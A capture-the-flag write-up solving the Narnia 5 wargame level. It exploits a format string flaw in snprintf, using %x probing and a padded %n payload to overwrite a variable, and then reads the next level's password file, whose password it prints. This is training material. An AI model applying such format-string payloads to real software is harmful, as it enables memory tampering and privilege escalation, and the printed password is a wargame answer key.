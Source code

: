 # Writeup for Narnia 5

So on analysing the binary and trying a buffer overflow, we see that it's not possible because the string is being terminated and its reading the length. 

However, we are seeing a function
```text
snprintf
```

It functions similar to printf, but it does bounds checking. So it won't print out more than its supposed to. But no format strings are passed to it

That means it could be vulnerable to format string vulnerability!

Cool, let's test it.
## Proof of Concept

```text
narnia5@narnia:/narnia$ ./narnia5 %x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [f7fc5000] (8)
i = 1 (0xffffd6e0)
```

Now we try to find where the string is reflected to us in the buffer.

```text
narnia5@narnia:/narnia$ ./narnia5 AAAA-%1\$x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAA-41414141] (13)
```

Perfect! Now let's replace A with the address where they're telling us variable i is located and then a payload equivalent to size 500, as we can't really write 500 in the buffer. So that the value 500 is written into the address we pass. (We are using the %N property of printf)
```text
narnia5@narnia:/narnia$ ./narnia5 $(python -c 'print "\xe0\xd6\xff\xff"')-%1\$n
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [����-] (5)
i = 5 (0xffffd6e0)
```

## Completed Exploit 

Cool, now that we are changing the value, and now we know how many spoiler numbers are being written, let's pad our payload to reflect 500.

```text
narnia5@narnia:/narnia$ ./narnia5 $(python -c 'print "\xe0\xd6\xff\xff"')-%494u-%1\$n
Change i's value from 1 -> 500. GOOD
$ cat /etc/narnia_pass/narnia6
neezocaeng
```
GG, we have shell, 

The password to the next level is 
```text
neezocaeng
```
